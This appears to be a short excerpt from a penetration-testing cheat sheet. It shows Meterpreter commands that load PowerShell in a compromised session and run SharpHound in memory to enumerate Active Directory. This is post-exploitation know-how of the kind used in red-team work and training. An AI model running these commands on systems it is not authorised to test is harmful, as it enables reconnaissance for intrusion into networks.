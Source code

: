 ## Some Useful Meterpreter Modules/Functions

**Load PS1 and Execute in Memory**

```bash
meterpreter > load powershell

meterpreter > powershell_import ../Tools/AD_Enum/SharpHound.ps1
# May need to cd to a writeable directory first
meterpreter > powershell_execute 'Invoke-Bloodhound -C All'
```
